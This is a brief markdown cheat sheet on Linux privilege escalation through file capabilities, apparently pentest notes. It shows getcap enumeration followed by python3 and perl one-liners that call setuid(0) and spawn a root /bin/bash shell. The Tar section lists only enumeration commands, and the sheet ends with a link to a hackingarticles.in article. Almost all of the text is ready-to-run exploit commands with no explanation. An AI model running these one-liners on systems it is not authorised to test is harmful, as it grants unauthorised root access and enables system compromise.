 # Exploiting Capabilities

## Python

```python
getcap -r / 2>/dev/null
pwd
ls -al python3
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id
```

## Perl

```
getcap -r / 2>/dev/null
pwd
ls -al perl
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
id
```

## Tar

```
getcap -r / 2>/dev/null
pwd
ls -al tar
```

## Links
- https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
- 